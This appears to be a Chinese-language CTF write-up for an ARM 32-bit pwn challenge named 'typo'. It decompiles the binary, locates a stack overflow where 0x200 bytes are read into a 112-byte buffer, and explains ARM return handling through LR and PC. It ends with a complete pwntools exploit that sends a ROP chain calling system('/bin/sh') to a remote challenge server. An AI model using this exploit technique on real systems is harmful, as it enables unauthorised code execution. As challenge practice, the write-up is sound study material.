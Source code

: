 ```yaml
---
title: typo
date: 2023-03-23 15:56:03
categories: 
- pwn_wp
tags: 
- pwn
- arm
- stackoverflow

---
```


arm pwn入门题，有`system`和`/bin/sh`，简单的栈溢出。
<!-- more -->

先checksec和file查下：

```sh
# 32位ARM，静态链接
typo: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=211877f58b5a0e8774b8a3a72c83890f8cd38e63, stripped

# 只开了NX
[*] '/home/a1ph0nse/PwnPractice/OwnStudy/ARMpwn/typo'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8000)
```

逆向：

有太多的sub了，很多函数需要靠猜。

程序大概的功能就是不断随机读取单词表中的一个单词，如果输入与他一样则继续，否则告诉你`E.r.r.o.r`，输入`~`则结束，会告诉你准确率以及速度。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *v3; // r3
  int v4; // r1
  void *v5; // r2
  void *v6; // r3
  int v7; // r0
  int v8; // r0
  int correct; // r0
  int v10; // r1
  double v11; // r0
  int v12; // r3
  double v14; // [sp+8h] [bp-2Ch]
  int v15; // [sp+10h] [bp-24h]
  int v16; // [sp+14h] [bp-20h]
  int idx; // [sp+18h] [bp-1Ch]
  int v18; // [sp+1Ch] [bp-18h]
  int v19; // [sp+20h] [bp-14h]
  int v20; // [sp+24h] [bp-10h]

  v20 = 0;
  v19 = 0;
  setbuf((unsigned int *)off_A1538, 0, 2);
  setbuf((unsigned int *)off_A1534[0], 0, 2);
  write(
    (void *)1,
    "Let's Do Some Typing Exercise~\nPress Enter to get start;\nInput ~ if you want to quit\n",
    (void *)0x56,
    v3);
  if ( getchar() != '\n' )
    exit(-1);
  write((void *)1, "------Begin------", (void *)0x11, (void *)'\n');
  v7 = gettimeofday(0, v4, v5, v6);
  sub_FE28(v7);
  correct = ftime(v8);
  v18 = correct;
  do
  {
    ++v20;
    idx = rand(correct, v10) % 4504;
    printf("\n%s\n", &aAbandon[20 * idx]);      // 从单词表中输出一个单词
    correct = read_and_cmp((int)&aAbandon[20 * idx]);// 接收输入并与单词比较 漏洞在这
    v16 = correct;
    if ( !correct )                             // 输入的与输出的不一致则输出error
    {
      correct = puts((int)"E.r.r.o.r.");
      ++v19;
    }
  }
  while ( v16 != 2 );
  v15 = ftime(correct);
  LODWORD(v11) = sub_9428(v15 - v18);
  v14 = v11 / 1000000.0;
  write((void *)1, "------END------", (void *)0xF, (void *)COERCE_UNSIGNED_INT64(v11 / 1000000.0));
  sub_11F80('\n');
  sub_8DF0(v20 - 1, v19, v14);
  puts((int)"Bye");
  return v12;
}
```

重点关注接收输入并比较的函数`read_and_cmp`：

```c
int __fastcall sub_8D24(unsigned __int8 *a1)
{
  unsigned int len; // r0
  int v2; // r4
  char v6[112]; // [sp+Ch] [bp-70h] BYREF

  memset(v6, 0, 100);
  read(0, v6, (void *)0x200, v6);               // 类似read，读取0x200byte到v6，存在栈溢出
  len = strlen(a1);
  if ( !strcmp(a1, (unsigned __int8 *)v6, len) )
  {
    v2 = strlen(a1);
    if ( v2 == strlen(v6) - 1 )
      return 1;
  }
  if ( v6[0] == '~' )
    return 2;                                   // 到这里才能跳出循环
  return 0;
}
```

到这里漏洞已经挺明显的了，存在栈溢出漏洞，而且程序中存在`system`和`/bin/sh`，覆盖返回地址执行`system("/bin/sh")`就可以get shell了。

但是`ARM`架构和`x86`架构有些不同，`ARM`栈结构不像`x86`那样有`bp`和`return_addr`垫在最下方，但也差不多。

`ARM`使用`LR`寄存器（`R14`或`X30`）保存函数的返回地址，而为了能在该函数执行完后，知道上一层函数的返回地址，需要将其保存在栈上，在函数返回时更新`LR`寄存器的值，因此可以通过栈溢出覆盖这个值来控制`LR`。

在进行`ROP`的时候`ARM`也有所不同，由于`POP`和`PUSH`可以对`LR`和`PC`进行操作，没有`ret`，因此控制`PC`控制程序的执行流。通常找的`gadget`后面都有对`pc`的控制，通过控制`PC`控制执行流即可。

exp:

```py
from pwn import*
context(log_level='debug',os='linux',arch='arm')
filename='typo'
elf=ELF('./'+filename)
#libc=ELF('')
# p=process('./'+filename)
# p=process(["qemu-arm", "-g", "8888", "./typo"])
#p=process(['./ld-2.23.so','./'+filename],env={'LD_PRELOAD':'./libc-2.23.so'})
p=remote('node4.buuoj.cn',28805)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
  pause()
    
pop_ro_r4_pc=0x00020904
sys_addr=0x000110B4
binsh_addr=0x0006C384
r()
s(b'\n')
payload=b'a'*112+p32(pop_ro_r4_pc)+p32(binsh_addr)*2+p32(sys_addr)
s(payload)

itr()
```



